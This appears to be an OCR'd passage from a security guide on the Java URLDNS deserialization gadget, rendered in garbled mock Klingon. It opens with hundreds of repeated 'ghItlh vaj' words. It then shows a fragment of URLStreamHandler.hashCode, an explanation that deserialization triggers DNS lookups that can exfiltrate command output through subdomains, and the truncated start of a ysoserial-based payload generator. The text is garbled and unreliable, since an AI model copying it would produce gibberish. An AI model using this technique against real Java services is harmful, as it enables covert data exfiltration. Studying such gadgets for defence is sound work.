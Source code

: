 **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **vaj** **ghItlh** **v
```java
protected int hashCode(URL u) {
int h = 0;

// Generate the protocol part.
String protocol = u.getProtocol();
if (protocol != null)
h += protocol.hashCode();

// Generate the host part.
InetAddress addr = getHostAddress(u);
[   ...   ]
```
DaH jatlh 'e' yIlo' 'ej **DNS query** **launch** **abuse** **class** 'e' **execute** 'e' `getHostAddress` **domain**.

vaj, **deserialization** **possible** **demonstrate** **DNS query** **launch** **exfiltrate information** (command execution output 'e' subdomain 'e' append 'e').

### URLDNS payload code example

[URDNS payload code from ysoserial here](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java) **find**. 'ach, 'oH **understand** **code** **easier** **make** **PoC** **create** (ysoserial 'e' based).
```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
public static void GeneratePayload(Object instance, String file)
throws Exception {
```
